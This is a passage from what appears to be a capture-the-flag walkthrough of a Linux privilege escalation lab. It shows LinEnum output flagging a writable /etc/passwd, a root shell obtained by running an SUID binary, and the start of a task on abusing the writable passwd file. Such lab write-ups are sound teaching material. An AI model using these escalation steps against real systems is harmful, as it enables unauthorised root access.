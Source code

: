 This can be found in our linenum report. open the report with nano press ctrl+W and search for "sensitive"

```
Can we read/write sensitive files:
-rw-rw-r-- 1 root root 2694 Mar  6 07:08 /etc/passwd
-rw-r--r-- 1 root root 1087 Jun  5  2019 /etc/group
-rw-r--r-- 1 root root 581 Apr 22  2016 /etc/profile
-rw-r----- 1 root shadow 2359 Mar  6 07:07 /etc/shadow
```
As you can see /etc/passwd has been changed to have write privs.  
  
Answer: /etc/passwd  

**#7 Well done! Bear the results of the enumeration stage in mind as we continue to exploit the system!**  

No answer needed  

# [Task 5] Abusing SUID/GUID Files
  
**#1 What is the path of the file in user3's directory that stands out to you?**  
  
This can be found in our linenum report. open the report with nano press ctrl+W and search for "SUID"
```bash
user3@polobox:~$ nano linenum_report-22-08-20
```
The only file in user3's directory is /home/user3/shell  

```
-rwsr-xr-x 1 root root 8392 Jun  4  2019 /home/user3/shell
```
  
Answer: /home/user3/shell

**#2 We know that "shell" is an SUID bit file, therefore running it will run the script as a root user! Lets run it! We can do this by running: "./shell"**  

```bash
user3@polobox:~$ ./shell
You Cant Find Me

root@polobox:~#
```
No answer needed

**#3 Congratulations! You should now have a shell as root user, well done!**  
  
No answer needed


# [Task 6] Exploiting Writeable /etc/passwd

**#1 First, let's exit out of root from our previous task by typing "exit". Then use "su" to swap to user7, with the password "password"**
